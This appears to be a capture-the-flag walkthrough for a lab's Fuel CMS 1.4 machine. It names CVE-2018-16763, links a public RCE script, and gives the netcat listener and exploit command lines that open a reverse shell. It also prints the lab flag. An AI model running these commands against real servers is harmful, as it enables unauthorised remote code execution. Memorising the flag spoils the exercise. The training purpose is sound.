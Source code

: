 # Vulnerability Capstone

### Exploit the Machine (Flag Submission)
- What is the name of the application running on the vulnerable machine?<br />
Open the browser at http://target_IP <br />
![image](https://github.com/user-attachments/assets/96c4b47e-1b8c-4bc1-a7db-57fb9b1badb5)<br />
`Fuel CMS`
- What is the version number of this application? `1.4`
- What is the number of the CVE that allows an attacker to remotely execute code on this application? <br />
Found the answer [here](https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated/blob/main/Fuel-Updated.py); the RCE script is in the exploit.py file. `CVE-2018-16763`
- Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability. <br />
Copy the exploit file (remember to make it executable, `chmod +x exploit.py`). As we can see from the image below, the script requires to set three arguments: the url, the IP of our attackbox and the listening port on our attackbox. <br />
![image](https://github.com/user-attachments/assets/8979bb1e-5da4-4903-a0d6-ccc46374fc4f)<br />
So open a netcat listener on your machine: `nc -lnvp 4444`, and the command looks like this: `python3 exploit.py http://10.10.196.75 10.11.85.53 4444`<br />
![image](https://github.com/user-attachments/assets/2e0ffaa5-4ca0-44d9-a303-93116c8ffca4)<br />
And we have remote code execution.

- What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine. <br />
Run `cat /home/ubuntu/flag.txt`<br />
![image](https://github.com/user-attachments/assets/a5a6c48d-9da3-4d78-9ca6-6e08da1d5f5f)<br />
`THM{ACKME_BLOG_HACKED}`
